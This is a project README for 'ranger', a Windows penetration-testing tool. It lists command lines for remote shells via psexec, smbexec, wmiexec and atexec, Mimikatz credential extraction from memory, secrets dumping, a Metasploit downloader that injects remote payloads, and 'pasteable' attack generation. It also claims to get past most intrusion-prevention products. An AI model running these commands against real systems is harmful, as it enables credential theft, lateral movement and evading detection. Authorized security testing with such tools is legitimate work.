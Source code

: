 # ranger
A tool to support security professionals access and interact with remote Microsoft Windows based systems.

This project was conceptualized with the thought process, we did not invent the bow or the arrow, 
just a more efficient way of using it.

Ranger is a command-line driven attack and penetration testing tool, which as the ability to use 
an instantiated catapult server to deliver capabilities against Windows Systems.  As long as a user 
has a set of credentials or a hash set (NTLM, LM, LM:NTLM) he or she can gain access to systems that 
are apart of the trust.

Using this capability a security professional can extract credentials out of memory in clear-text, 
access SAM tables, run commands, execute PowerShell scripts, Windows Binaries, and other tools.  
At this time the tool bypasses the majority of IPS vendor solutions unless they have been custom 
tuned to detect it. The tool was developed using our home labs in an effort to support security 
professionals doing legally and/or contractually supported activities.

More functionality is being added, but at this time the tool uses the community contributions 
from repositories related to the PowerShell PowerView, PowerShell Mimikatz and Impacket teams.  

##Find Logged In Users:
ranger.py [-u Administrator] [-p Password1] [-d Domain] --scout

#SMBEXEC Command Shell:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --smbexec -q -v -vv -vvv

#PSEXEC Command Shell:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --psexec -q -v -vv -vvv

#PSEXEC Command Execution:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --psexec -c "Net User" -q -v -vv -vvv

#WMIEXEC Command Execution:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --wmiexec -c "Net User"

#WMIEXEC PowerShell Mimikatz Memory Injector:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --wmiexec --invoker

#WMIEXEC Metasploit web_downloader Memory Injector:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --wmiexec --downloader

#WMIEXEC Custom Code Memory Injector:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --wmiexec --executor -c "binary.exe"

#ATEXEC Command Execution:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --atexec -c "Net User" --no-encoder

#ATEXEC PowerShell Mimikatz Memory Injector:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --wmiexec --invoker --no-encoder

#ATEXEC Metasploit web_downloader Memory Injector:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --wmiexec --downloader --no-encoder

#ATEXEC Custom Code Memory Injector:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --wmiexec --executor -c "binary.exe" --no-encoder

#SECRETSDUMP Custom Code Memory Injector:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --secrets-dump

#Create Pasteable Mimikatz Attack:
ranger.py --invoker -q -v -vv -vvv

#Create Pasteable web_downloader Attack:
ranger.py --downloader -q -v -vv -vvv

#Create Pasteable Executor Attack:
ranger.py --executor -q -v -vv -vvv
